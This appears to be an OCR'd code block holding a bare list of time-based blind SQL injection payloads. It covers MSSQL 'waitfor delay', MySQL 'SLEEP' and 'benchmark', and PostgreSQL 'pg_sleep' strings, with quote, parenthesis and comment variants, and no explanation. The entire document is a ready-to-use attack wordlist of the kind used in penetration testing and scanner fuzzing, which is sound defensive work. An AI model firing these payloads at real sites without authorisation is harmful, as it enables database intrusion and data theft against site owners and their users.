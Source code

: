 ```
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
```